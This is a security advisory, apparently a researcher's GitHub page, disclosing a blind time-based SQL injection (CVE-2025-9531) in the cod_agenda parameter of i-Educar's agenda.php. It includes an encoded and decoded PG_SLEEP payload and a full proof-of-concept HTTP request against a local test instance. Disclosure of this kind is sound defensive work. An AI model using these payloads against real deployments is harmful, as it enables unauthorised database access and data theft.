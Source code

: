 ## CVE-2025-9531: SQL Injection (Blind Time-Based) Vulnerability in `cod_agenda` Parameter on `agenda.php` Endpoint

![](/CVEs/images/arts/sqlInjectionBanner.png)

[![](https://img.shields.io/badge/🌸-CVE--2025--9531-dd53bc)](https://www.cve.org/CVERecord?id=CVE-2025-9531) ![](https://img.shields.io/badge/i--Educar-SQL_Injection-291b3e) [![](https://img.shields.io/badge/💜-Found_by:_Karina_Gante-AA07FF)](https://karinagante.github.io/) ![](https://img.shields.io/badge/%F0%9F%9A%A8-Critical_Severity-ff0000) [![](https://img.shields.io/badge/🧬-Member_of:_CVE--Hunters-6407ab)](https://www.cvehunters.com/)

### 📝 Summary

<p align="justify">A SQL Injection vulnerability was identified in the <code>/intranet/agenda.php</code> endpoint of the i-Educar application, specifically in the <code>cod_agenda</code> parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.</p>

---

### 🔎 Details

➤ Vulnerable Endpoint: `/intranet/agenda.php`

➤ Parameter: `cod_agenda`

<p align="justify">The application fails to properly validate and sanitize user input in the <code>cod_agenda</code> parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.</p>

---

### 📚 PoC

#### ➤ Step by Step:

<p align="justify">Access vulnerable endpoint and click on <code>"Novo Compromisso"</code> button to setup a new entry. Type required values in the fields and click on <code>"Salvar"</code>. The page will automatically redirect to another Endpoint like: <code>http://localhost:8086/intranet/agenda.php?cod_agenda=2&time=1755283</code>.</p>

##

#### ➤ Payload:

````html
%27%20AND%204698=(SELECT%204698%20FROM%20PG_SLEEP(5))%20AND%20%27xiCO%27=%27xiCO
````

#### ➤ Decoded Payload:

````html
' AND 4698=(SELECT 4698 FROM PG_SLEEP(5)) AND 'xiCO'='xiCO
````

<p align="justify"> This payload triggers a 5-second delay in the server response, demonstrating that the parameter is vulnerable to blind time-based SQL injection.</p>

##

#### Example Request:

````html
GET /intranet/agenda.php?cod_agenda=2%27%20AND%204698=(SELECT%204698%20FROM%20PG_SLEEP(5))%20AND%20%27xiCO%27=%27xiCO  HTTP/1.1
Host: localhost:8086
sec-ch-ua: "Not)A;Brand";v="8", "Chromium";v="138"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: i_educar_session=5AfYtvGRiuEgLBVbvksmwiNSnG75l4waXNMo1PEV
Connection: keep-alive
````

##

#### ➤ Screenshots:

#### Normal Request:

![](/CVEs/images/SQLi4.png)

#### SQLi Request:

![](/CVEs/images/SQLi5.png)

<p align="justify">Observe the increased server response time, confirming that the injected SQL command was executed.</p>

<details>
<summary><h3>📂 Click here to see all Step by Step Screenshots:</h3></summary>
<br>

![](/CVEs/images/SQLi1.png)

<br>

![](/CVEs/images/SQLi2.png)

<br>

![](/CVEs/images/SQLi3.png)

<br>

![](/CVEs/images/SQLi4.png)

<br>

![](/CVEs/images/SQLi5.png)
</details>

---


### ⚠️ Impact

##

<p align="justify">
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Unauthorized data access: Reading sensitive information such as credentials, personal data, or configuration details.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Database enumeration: Extracting database schema, tables, and column details.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Data manipulation: Adding, modifying, or deleting database records.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Stealing credentials: Attackers can steal a user's credentials.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Denial of Service (DoS): Using time-based queries to impact system availability.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Potential escalation to RCE: If combined with other vulnerabilities and specific database features.
</p>

---

### 🔗 References

![](/CVEs/images/logos/cve.png) ➤ [https://www.cve.org/CVERecord?id=CVE-2025-9531](https://www.cve.org/CVERecord?id=CVE-2025-9531)

![](/CVEs/images/logos/vulDB.png)➤ [https://vuldb.com/?id.321550](https://vuldb.com/?id.321550)

---

### 🕵🏻‍♀️ Finder

*Discovered with💜 by [Karina Gante](https://karinagante.github.io/).* 

[![LinkedIn](https://skillicons.dev/icons?i=linkedin&theme=dark)](https://www.linkedin.com/in/karina-gante/)
[![GitHub](https://skillicons.dev/icons?i=github&theme=dark)](https://www.github.com/KarinaGante/)
[![gmail](https://skillicons.dev/icons?i=gmail&theme=dark)](mailto:karina.gante1@gmail.com)
[![Instagram](https://skillicons.dev/icons?i=instagram&theme=dark)](https://www.instagram.com/karinovisk02/)

##

*Official Member of [CVE-Hunters](https://www.cvehunters.com/)🏹*